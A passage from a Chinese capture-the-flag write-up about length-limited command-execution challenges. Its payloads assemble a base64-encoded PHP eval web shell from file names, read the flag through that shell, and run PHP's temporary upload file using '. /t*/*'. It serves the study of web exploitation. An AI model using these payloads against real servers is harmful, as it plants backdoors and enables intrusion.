 写入

```bash
>hp
>1.ph\\
>d\>\\
>\ -\\
>e64\\
>bas\\
>7\|\\
>XSk\\
>Fsx\\
>dFV\\
>kX0\\
>bCg\\
>XZh\\
>AgZ\\
>waH\\
>PD9\\
>o\ \\
>ech\\
ls -t>0
sh 0
```

查看 flag

`http://f8e84766-7989-44db-8b32-a500d08a2ce0.challenge.ctf.show//api/1.php?1=system('cat /flag');`

补一下官方 wp 的做法, 觉得挺有意思的

原因在于 PHP 对文件上传的处理

参考文章 [https://blog.csdn.net/qq_36078992/article/details/124301392](https://blog.csdn.net/qq_36078992/article/details/124301392)

只要 POST 包中存在文件内容, PHP 都会把文件存储到缓存文件夹中 (默认是 /tmp), 在请求结束的时候文件会被删除

但是这里我们可以尝试将命令执行和文件上传的操作弄进一个请求里面, 保证了在命令执行时缓存文件不会被删除

命令执行的 payload, 刚好7个字符

```bash
. /t*/*
```

![](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202208062007657.png)

![](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202208062007000.png)

### easy_calc

![20220805174541](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/20220805174541.png)

有 `preg_match()` 过滤, 而且 `$symbol` 中只能存在 `+-*/`

输入非数字报错
